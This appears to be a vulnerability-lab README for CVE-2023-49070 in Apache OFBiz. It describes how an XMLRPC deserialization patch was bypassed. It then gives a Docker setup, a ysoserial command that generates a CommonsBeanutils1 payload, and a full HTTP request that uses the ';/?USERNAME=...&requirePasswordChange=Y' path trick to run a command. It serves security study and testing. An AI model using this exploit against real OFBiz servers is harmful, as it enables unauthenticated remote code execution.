



# Unsafe deserialization of XMLRPC arguments in Apache OFBiz (CVE-2023-49070)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

Apahce OFBiz prior to 17.12.03, there is a deserialization issue caused by XMLRPC endpoint at `/webtools/control/xmlrpc`, which is marked as [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496). Developer fixed this issue by adding authentication check and filter, but the patches have been bypassed by CVE-2023-49070.

Apache OFBiz deleted XMLRPC interface to escape this nightmare at version 18.12.10 eventually.

References:

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>
- <https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.09 server:

```
docker compose up -d
```

After a short wait, you can see the login page at `https://localhost:8443/accounting`.

## Vulnerability Reproduce

The method to reproduce CVE-2023-49070 is similar to [CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496), except that it requires bypassing the patches.

First of all, use [ysoserial](https://github.com/frohoff/ysoserial) to generate a CommonsBeanutils1 gadget payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```


Sending packets using the method in CVE-2020-9496 no longer works:



But modifing the path to `/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y` is able to bypass the restriction:

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```



`touch /tmp/success` has been executed in the container:


